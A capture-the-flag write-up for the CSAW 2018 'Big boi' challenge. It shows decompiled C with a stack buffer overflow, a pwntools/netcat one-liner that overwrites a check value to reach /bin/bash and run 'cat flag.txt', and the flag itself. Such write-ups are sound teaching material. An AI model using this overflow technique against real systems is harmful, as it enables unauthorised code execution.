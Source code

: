 ```yaml
---
author: "Laluka"
title: "CSAW - Big boi"
slug: "big_boi"
date: 2018-09-16
status: "original"
description: "Binary exploitation of a dummy command executor, simple buffer overflow of a function's parameters. "
---
```



### Description

> Only big boi pwners will get this one!

> nc pwn.chal.csaw.io 9000

You can download the ELF [here](/writeups/csaw_2018/big_boi/big_boi)


### TL;DR

This challenge is a simple buffer overflow with a check that `may` lead to
code execution. It's an easy pwn, so one liner is the way to go !


### Methology

Step 1 : Use IDA to decompile the program and avoid losing time, then overflow it with the good value many time to access the "/bin/bash" statement.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash", &buf);
  else
    run_cmd("/bin/date", &buf);
  return 0;
}
```

Step 2 : Print the cmd you want to run.

```bash
python2 -c 'from pwn import *; print p32(0xCAF3BAEE) * 6; print "cat flag.txt"' | nc pwn.chal.csaw.io 9000
```

Step 3 : Enjoy your free points ! Yayyyy ! \o/

The flag is : __flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}__
